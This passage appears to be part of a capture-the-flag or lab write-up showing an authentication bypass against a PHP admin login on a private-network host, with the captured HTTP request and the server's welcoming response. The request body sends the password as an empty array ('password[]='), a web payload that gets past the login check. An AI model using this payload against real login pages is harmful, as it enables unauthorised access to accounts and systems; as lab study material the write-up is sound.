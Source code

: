 ````http
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://192.168.155.101/admin/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close

username=admin&password[]=

````

Send it off.....

We are in!

````http

HTTP/1.1 200 OK

Date: Mon, 30 Jan 2023 12:16:42 GMT

Server: Apache/2.4.41 (Ubuntu)

Set-Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh; expires=Tue, 30-Jan-2024 12:16:42 GMT; Max-Age=31536000

Vary: Accept-Encoding

Content-Length: 91

Connection: close

Content-Type: text/html; charset=UTF-8

<html>

<head></head>

<body>

Welcome! </br> Go to the <a href="dashboard.php">dashboard</a>

````

We have a simple page that has as few hyperlinks.
